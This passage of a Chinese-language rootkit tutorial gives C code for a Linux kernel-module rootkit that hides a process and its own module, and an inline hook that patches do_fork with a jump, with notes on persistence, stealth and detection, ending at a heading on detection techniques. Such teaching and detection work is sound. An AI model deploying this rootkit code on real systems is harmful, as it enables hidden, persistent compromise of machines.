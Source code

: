 以可加载内核模块（LKM）形式运行，注册恶意逻辑：

```clike
static int __init rootkit_init(void) {
    printk(KERN_INFO "Rootkit加载\n");
    hide_process(1234); // 隐藏PID 1234
    list_del(&THIS_MODULE->list); // 隐藏模块
    return 0;
}

static void __exit rootkit_exit(void) {
    printk(KERN_INFO "Rootkit卸载\n");
}

module_init(rootkit_init);
module_exit(rootkit_exit);
MODULE_LICENSE("GPL");
```

**说明**：

* **工作原理**：通过LKM加载Rootkit，隐藏自身模块，调用`hide_process`隐藏进程。
* **用途**：提供持久化恶意功能，易于部署。
* **检测**：检查`modules`链表或异常内核模块。

##### 2.2.4 内核函数内联钩子

修改内核函数指令流，插入恶意代码。例如，钩住`do_fork`：

```clike
void *orig_do_fork;
unsigned char orig_code[5];

void hooked_do_fork(void) {
    printk(KERN_INFO "拦截进程创建\n");
}

void hook_inline_do_fork(void) {
    orig_do_fork = (void *)do_fork;
    memcpy(orig_code, orig_do_fork, 5);
    unsigned char jmp_code[] = {0xE9, 0x00, 0x00, 0x00, 0x00};
    *(unsigned int *)(jmp_code + 1) = (unsigned long)hooked_do_fork - (unsigned long)orig_do_fork - 5;
    disable_write_protection();
    memcpy(orig_do_fork, jmp_code, 5);
    enable_write_protection();
}
```

**说明**：

* **工作原理**：用`JMP`指令覆盖`do_fork`前5字节，跳转到恶意代码。
* **用途**：监控或篡改进程创建。
* **优势**：比系统调用表劫持更隐蔽。

### 三、Rootkit检测技术
